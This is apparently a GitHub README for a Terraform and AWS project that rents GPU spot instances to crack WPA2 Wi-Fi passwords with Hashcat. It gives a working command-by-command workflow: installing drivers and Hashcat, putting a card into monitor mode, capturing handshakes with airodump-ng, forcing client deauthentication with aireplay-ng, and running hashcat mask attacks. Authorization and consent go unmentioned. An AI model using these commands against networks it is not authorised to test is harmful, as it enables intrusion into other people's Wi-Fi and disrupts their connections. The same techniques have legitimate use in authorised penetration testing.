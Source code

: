 # AWS & HashCat

A AWS &amp; Hashcat environment for WPA2 Brute force attack

## Introduction

One big question when it comes to breaking passwords by brute force is: How long will it take?

While the password  **112233** would only take 1 second to be discovered through trial and error, consisting of several combinations, a password like **fDb#E!*##12c** would take 4 centuries, according to [Kaspersky Calculator](https://password.kaspersky.com/?/utm_medium=rdr&utm_source=redirector&utm_campaign=old_url). The problem is that it is not enough to have a "Gamer" computer, it will not be enough if the password is a bit more complex, we often have even modest computers.

An alternative is to use **AWS** to accomplish this task, there are very powerful **EC2** instances in which we can enjoy paying for hours of use.

We can use instances of type P3 for example, which contains the following configuration:

Name | GPUs | GPU Mem | vCPU | Mem (GiB) | Cost/hour 
-----|------|---------|------|-----------|----------
p3.2xlarge | 1 | 16 | 4 | 61 | $ 3.06 
p3.8xlarge | 8 | 64 | 32 | 244 | $ 12.24
p3.16xlarge | 8 | 128 | 64 | 488 | $ 24.48
p3dn.24xlarge | 8 | 256 | 96 | 768 | $ 31.218
p4d.24xlarge | 8 | not specified | 96 | 1152 | $ 32.77

You can be able to save up to 70% by using spot instance.

## Prerequisites

To perform this process you must have the following requirements:

* Knowledge of Linux
* Account with AWS
* Be willing to spend

## Configuration

With the pre requisites fulfilled hands down.

### Uploading Instance

1. Select the AMI Debian 10
1. Choose the type, in this example I'll use **p3.2xlarge**
1. Configure the details, storage, security group, key pair, etc.
1. After creating the instance make the connection via SSH

At this point we will do the initial configuration.

### Configuration

Update and upgrade apt

```
sudo apt update && sudo apt upgrade -y
```

Install the packages

```
sudo apt install -y --ignore-missing build-essential tmux htop vim jq unzip lsof git p7zip-full
```

Set the correct timezone

```
ln -sf /usr/share/zoneinfo/America/Sao_Paulo /etc/localtime
```

Create the file **blacklist-nouveau.conf**

```
sudo vim /etc/modprobe.d/blacklist-nouveau.conf
```

Enter the following lines

```
nouveau blacklist
blacklist lbm-nouveau
options nouveau modeset = 0
alias nouveau off
alias lbm-nouveau off
```

Create the file **nouveau-kms.conf**

```
sudo vim /etc/modprobe.d/nouveau-kms.conf
```
Enter the following line

```
options nouveau modeset = 0
```

And then upgrade initramfs

```
sudo update-initramfs -u
```

At this point reboot your server to continue.

Install linux headers
```
sudo apt install -y linux-headers-`uname -r`
```

Download NVIDIA and install

```
cd /tmp/
wget https://us.download.nvidia.com/tesla/470.57.02/NVIDIA-Linux-x86_64-470.57.02.run
sudo /bin/bash NVIDIA-Linux-x86_64-470.57.02.run --ui=none --no-questions --silent -X

```

Download HashCat and install

```
cd /tmp/
wget https://hashcat.net/files/hashcat-6.2.4.7z >/dev/null 2>&1
7za x hashcat-6.2.4.7z >/dev/null 2>&1
mv hashcat-6.2.4 /home/admin/
ln -s /home/admin/hashcat-6.2.4/hashcat.bin /usr/local/bin/hashcat
```

At this point you can put your **.hc22000** files on the server, if you have captured the handshake through **Aircrack-ng** you can convert the file **.cap** to **.hc22000** without much trouble, a very simple alternative is to use a tool called [cap2hashcat](https://hashcat.net/cap2hashcat/) from HashCat itself.

Now just launch the command and wait for the password to be discovered, for more information on usage consult HashCat [Documentation](https://hashcat.net/wiki/).

**Getting the Handshake using Aircrack-ng**

Install aircrack-ng
```
sudo apt install aircrack-ng
```

Put the interface into monitoring mode
```
sudo airmon-ng start wlan0
```

If the interface is busy
```
sudo airmon-ng check kill
```

check candidates
```
sudo airodump-ng wlan0mon
```

Once chosen stop it and start capture
```
sudo airodump-ng -c CHANNEL --bssid MAC -w /tmp/wificapfile wlan0mon
```

To make faster the capture, you can force the reauthentication
```
sudo aireplay-ng -0 2 -a MAC -c MAC wlan0mon
```

Little explanation
```
-0 2: number of requests
-a: access point MAC address
-c: client MAC address
```

You will see in the top right corner when the handshake is captured, then stop the capture and convert using **cap2hashcat** tool.

**Terraform project**

You must have the following packages
```
aws-cli
terraform
```

Configure the aws credentials
```
aws configure
```

Init Terraform

```
terraform init
```

Apply
```
terraform apply
```

At this point all the environment and spot instance machine will be created, and will be automatically launched the **initial-script.sh** located in scripts folder, once finished reboot the server and run **hashcat.sh** to install nvidia drivers and hashcat.

**How to use Hashcat**

There is some example bellow, you can consult the oficial documentation as well

Send the file to the server
```
scp -i aws-hcat-prod.pem wificapfile.hc22000 admin@<ip address>:/home/admin/
```

Hashcat brute force examples
```
hashcat -m 22000 wificapfile.hc22000 -a 3 ?d?d?d?d?d?d?d?d
hashcat wificapfile.hc22000 -m 22000 -a 3 ?H?H?H?HAA10
```
